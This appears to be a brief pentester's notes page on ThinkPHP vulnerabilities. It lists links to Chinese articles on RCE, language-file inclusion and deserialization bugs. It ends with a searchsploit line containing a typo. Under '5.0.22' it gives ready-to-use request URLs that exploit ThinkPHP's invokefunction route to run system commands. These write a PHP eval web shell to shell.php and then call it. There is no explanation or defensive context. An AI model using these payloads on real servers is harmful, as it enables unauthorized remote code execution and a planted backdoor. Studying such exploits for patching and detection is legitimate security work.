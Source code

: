 [ThinkPHP框架漏洞总结+Thinkphp自动化武器](https://mp.weixin.qq.com/s/OWmFjra3oZfth0rifK-kYg)
[Thinkphp多语言漏洞自检工具 -- ThinkPhp6LangRce](https://mp.weixin.qq.com/s/a7Zo1GJpJuFGQR2t9m74Zw)
[ThinkPHP 3.1.3 | 某外汇常用CMS通用未授权RCE](https://mp.weixin.qq.com/s/SJ-rCRIkqT3COP9jdKBY_g)
[ThinkPHP远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247485017&idx=1&sn=82730143a26bfb4eeec1d9daa6671d17)
[ThinkPHP 6.x反序列化POP链（一）](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484192&idx=3&sn=1d97d5acb16026cdd2e0600bf3151c2f)
[Thinkphp6-Lang-rce](https://mp.weixin.qq.com/s/7SlTUoeYAtqNhlInz7BGRg)
[ThinkPHP-Lang v6.0.0~v6.0.13 v5.0.0~5.0.12 v5.1.0~5.1.8 Lang文件包含To远程代码执行漏洞复现—CNVD-2022-86535](https://mp.weixin.qq.com/s/8eeQO-3kAtKKTW5H13aabQ)
msf > searchsploit thinkphpk


## 5.0.22

```shell
http://192.168.138.136/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[whoami]);?>" > shell.php
http://192.168.138.136/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
http://192.168.138.136/shell.php
```
